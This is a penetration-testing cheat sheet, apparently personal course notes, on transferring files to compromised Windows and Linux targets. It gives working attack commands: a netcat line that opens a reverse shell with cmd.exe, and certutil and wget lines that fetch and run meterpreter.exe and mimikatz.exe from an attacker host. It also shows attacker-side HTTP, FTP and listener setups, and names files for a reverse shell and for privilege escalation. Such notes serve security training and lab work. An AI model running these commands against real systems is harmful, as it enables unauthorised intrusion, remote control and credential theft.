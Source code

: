 # 2. Transferring Files To Target
Transferring Files To Target Systems
------------------------------------

*   In some cases, you will not have access to the target system via a Meterpreter session, and as a result, you will need to use the inbuilt OS specific utilities to facilitate the transfer of files from your system to the target system.

Shell connection

*   cd /usr/share/windows-resources/\*
*   python3 -m http.server 80
*   web browser
    *   http://<ip>:<port>
*   nc -nvlp 80
*   nc.exe ip port -e cmd.exe

File Transfers Review

*   Certutil
    *   certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
    *   `certutil -urlcache -f http://<attacker ip>/meterpreter.exe meterpreter.exe` - `.\meterpreter.exe` - run
*   HTTP
    *   `python -m SimpleHTTPServer 80`
    *   `python3 -m http.server 80`
*   Browser
    *   Navigate directly to file
*   FTP 
    *   python -m pyftpdlib 21 (attacker machine)
    *   ftp 10.10.10.10
*   Linux 
    *   wget
    *   curl
    *   SMBServer
*   RDP
*   Metasploit

### Setting Up A Web Server With Python

*   Python comes with a built-in module known as SimpleHTTPServer(python2) and http.server (python3), that can be used to facilitate a simple HTTP server that gives you standard GET and HEAD request handlers.
*   Practical
    *   `python -m SimpleHTTPServer 80` - python 2, -m is module
    *   `python3 -m http.server 80` - python 3, -m is module
*   Practical 1
    *   tab 1 - python <exploit>,py <target ip> <port>
    *   tab 2 - `nc -nvlp <listuning port>`
    *   tab 3 - `python3 -m http.server 80`
*   Windows target system
    *   `mkdir Temp`
    *   `cd C:\Temp`
    *   `certutil -urlcache -f http://<attacker ip>/<fielname> <file download as name>` - download mimikatz.exe
*   Linux target system
    *   `mkdir /Temp`
    *   `cd /Temp`
    *   `wget http://<attacker ip>/<fielname>`

### Download tools from github in windows

*   `curl -L -o filename.extension` [`https://github.com/user/repository/raw/branch/path/to/file`](https://github.com/user/repository/raw/branch/path/to/file)
*   `wget -O filename.extension` [`https://github.com/user/repository/raw/branch/path/to/file`](https://github.com/user/repository/raw/branch/path/to/file) 

### SMBServer sharing a directory for file sharing

![](2. Transferring Files To Targe)

or 

![](1_2. Transferring Files To Targe)

download

![](2_2. Transferring Files To Targe)

![](3_2. Transferring Files To Targe)

\[\*\] reverse.exe - revershell exploitation file

\[\*\] Common.exe - privilege escalation shell file